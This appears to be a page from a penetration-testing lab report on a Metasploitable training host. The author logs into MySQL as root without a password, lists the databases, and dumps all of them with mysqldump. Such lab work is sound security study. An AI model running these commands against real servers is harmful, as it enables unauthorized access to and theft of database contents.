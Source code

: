 \documentclass{article}
\begin{document}
\begin{lstlisting}
root@bt-was:~# mysql -uroot -h metasploitable.sait230.ca
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 36239
Server version: 5.0.51a-3ubuntu5 (Ubuntu)

Copyright (c) 2000, 2011, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information\_schema |
| dvwa               |
| metasploit         |
| mysql              |
| owasp10            |
| tikiwiki           |
| tikiwiki195        |
+--------------------+
7 rows in set (0.00 sec)

mysql> 

\end{lstlisting}

I was able to connect to the mysql server as the root mysql
account. This gave me full access to all databases on the database server.

I used mysqldump to get a dump of all the databases on this host for offline analysis.

\begin{lstlisting}
root@bt-was:~# mysqldump -uroot -h metasploitable.sait230.ca \
  --all-databases > all-databases.sql
\end{lstlisting}

With full root access and a mysql shell I can insert rows into any table in any database.
I can update any record and I can read all information in all tables.
\end{document}
